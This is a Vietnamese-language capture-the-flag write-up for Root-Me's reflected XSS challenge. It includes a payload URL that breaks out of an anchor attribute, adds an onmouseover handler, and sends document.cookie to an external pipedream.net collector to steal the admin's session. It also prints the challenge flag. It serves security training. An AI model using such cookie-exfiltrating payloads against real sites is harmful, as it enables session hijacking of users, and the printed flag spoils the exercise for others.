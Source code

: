 # WRITE UP

## **Challenge: [XSS Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)**

Kiểm tra source website ta thấy web bị comment 1 thẻ &lt;a&gt; dẫn đến ?p=security:

<img src="./media/image1.png" style="width:6.5in;height:2.89861in" alt="Text Description automatically generated" />

Request đến ?p=security, website hiển thị trang web lỗi và có một hyperlink thẻ &lt;a&gt; hiển thị nội dung ‘security’:

<img src="./media/image2.png" style="width:6.5in;height:3.03403in" alt="Graphical user interface, text, application Description automatically generated" />

Thử nhập ?p=&lt;giá trị khác&gt;, page sẽ báo lỗi và hiển thị nội dung &lt;giá trị khác&gt; trong thẻ &lt;a&gt;. Như vậy, lợi dụng thẻ &lt;a&gt; này, ta thực hiện đóng quote cũng như chèn thêm event để thực hiện XSS:

<img src="./media/image3.png" style="width:6.5in;height:2.2625in" alt="Graphical user interface, text, application Description automatically generated" />

Đến đây, sau khi thử get trực tiếp document.cookie nhưng không có giá trị, ta thực hiện gửi HTTP Request và qua RequestBin chờ cookie.

Payload: <http://challenge01.root-me.org/web-client/ch26/?p=nh4ttruong%27%20onmouseover=%27document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?%22.concat(document.cookie)>

Thực hiện request với payload, sau đó ta trigger event ‘onmouseover’ và di chuyển chuột qua thẻ &lt;a&gt; để chuyển hướng website:

<img src="./media/image4.png" style="width:6.5in;height:1.03958in" alt="Graphical user interface, application Description automatically generated" />

Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:

<img src="./media/image5.png" style="width:5.21935in;height:2.0922in" alt="Graphical user interface, text, application, email Description automatically generated" />

<img src="./media/image6.png" style="width:6.5in;height:1.86042in" alt="Graphical user interface, text Description automatically generated" />

Qua RequestBin và nhận flag:

<img src="./media/image7.png" style="width:6.5in;height:1.94931in" alt="Graphical user interface, text, application Description automatically generated" />

**Flag:** r3fL3ct3D\_XsS\_fTw

